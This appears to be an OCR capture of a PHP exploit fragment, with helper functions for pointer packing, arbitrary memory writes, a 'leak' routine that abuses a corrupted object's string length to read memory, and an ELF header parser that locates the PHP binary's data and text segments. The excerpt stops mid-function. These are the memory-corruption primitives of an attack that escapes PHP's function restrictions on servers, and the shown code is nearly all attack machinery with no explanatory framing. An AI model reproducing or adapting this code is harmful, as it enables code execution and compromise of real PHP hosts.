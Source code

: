 ```PHP
    }
 
    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
 
    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }
 
    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }
 
    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }
 
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
 
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
 
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
 
            if($p_type == 1 && $p_flags == 6) { 
 
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }
 
        if(!$data_addr || !$text_size || !$data_size)
            return false;
 
        return [$data_addr, $text_size, $data_size];
```